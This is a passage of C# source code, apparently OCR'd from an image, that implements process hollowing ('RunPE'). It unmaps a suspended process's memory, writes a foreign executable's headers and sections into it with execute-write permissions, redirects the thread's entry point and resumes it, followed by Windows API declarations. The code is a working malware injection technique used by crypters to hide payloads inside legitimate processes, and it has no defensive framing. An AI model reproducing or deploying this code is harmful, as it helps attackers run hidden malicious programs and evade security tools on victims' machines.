 ```
 
        var ImageBase = new IntPtr(*(int*)(pinh + 0x34));
        NtUnmapViewOfSection((IntPtr)PROCESS_INFO[0] /* pi.hProcess */, ImageBase);
        if (VirtualAllocEx((IntPtr)PROCESS_INFO[0] /* pi.hProcess */, ImageBase, *(uint*)(pinh + 0x50 /* SizeOfImage */), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE) == IntPtr.Zero)
            return false;
 
        fixed (byte* p = &exeBuffer[0])
            NtWriteVirtualMemory((IntPtr)PROCESS_INFO[0] /* pi.hProcess */, ImageBase, (IntPtr)p, *(uint*)(pinh + 84 /* SizeOfHeaders */), IntPtr.Zero);
 
        for (ushort i = 0; i < *(ushort*)(pinh + 0x6 /* NumberOfSections */); i++)
        {
            Buffer.BlockCopy(exeBuffer, e_lfanew + IMAGE_NT_HEADERS.Length + (IMAGE_SECTION_HEADER.Length * i), IMAGE_SECTION_HEADER, 0, IMAGE_SECTION_HEADER.Length);
            fixed (byte* p = &exeBuffer[*(uint*)(pish + 0x14 /* PointerToRawData */)])
                NtWriteVirtualMemory((IntPtr)PROCESS_INFO[0] /* pi.hProcess */, (IntPtr)((int)ImageBase + *(uint*)(pish + 0xc /* VirtualAddress */)), (IntPtr)p, *(uint*)(pish + 0x10 /* SizeOfRawData */), IntPtr.Zero);
        }
 
        NtGetContextThread((IntPtr)PROCESS_INFO[1] /* pi.hThread */, (IntPtr)ctx);
        NtWriteVirtualMemory((IntPtr)PROCESS_INFO[0] /* pi.hProcess */, (IntPtr)(*(uint*)(ctx + 0xAC /* ecx */)), ImageBase, 0x4, IntPtr.Zero);
        *(uint*)(ctx + 0xB0 /* eax */) = (uint)ImageBase + *(uint*)(pinh + 0x28 /* AddressOfEntryPoint */);
        NtSetContextThread((IntPtr)PROCESS_INFO[1] /* pi.hThread */, (IntPtr)ctx);
        NtResumeThread((IntPtr)PROCESS_INFO[1] /* pi.hThread */, IntPtr.Zero);
        
        return true;
    }
 
    #region WinNT Definitions
 
    private const uint CONTEXT_FULL = 0x10007;
    private const int CREATE_SUSPENDED = 0x4;
    private const int MEM_COMMIT = 0x1000;
    private const int MEM_RESERVE = 0x2000;
    private const int PAGE_EXECUTE_READWRITE = 0x40;
    private const ushort IMAGE_DOS_SIGNATURE = 0x5A4D; // MZ
    private const uint IMAGE_NT_SIGNATURE = 0x00004550; // PE00
 
    private static short SW_SHOW = 5;
    private static short SW_HIDE = 0;
    private const uint STARTF_USESTDHANDLES = 0x00000100;
    private const uint STARTF_USESHOWWINDOW = 0x00000001;
 
 
    #region WinAPI
    [DllImport("kernel32.dll", SetLastError = true)]
    private static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, 
          IntPtr lpProcessAttributes, IntPtr lpThreadAttributes, bool bInheritHandles, 
          uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, 
          ref STARTUPINFO lpStartupInfo, int[] lpProcessInfo);
 
    [DllImport("kernel32.dll", SetLastError = true)]
    private static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
 
    [DllImport("ntdll.dll", SetLastError = true)]
    private static extern uint NtUnmapViewOfSection(IntPtr hProcess, IntPtr lpBaseAddress);
 
    [DllImport("ntdll.dll", SetLastError = true)]
```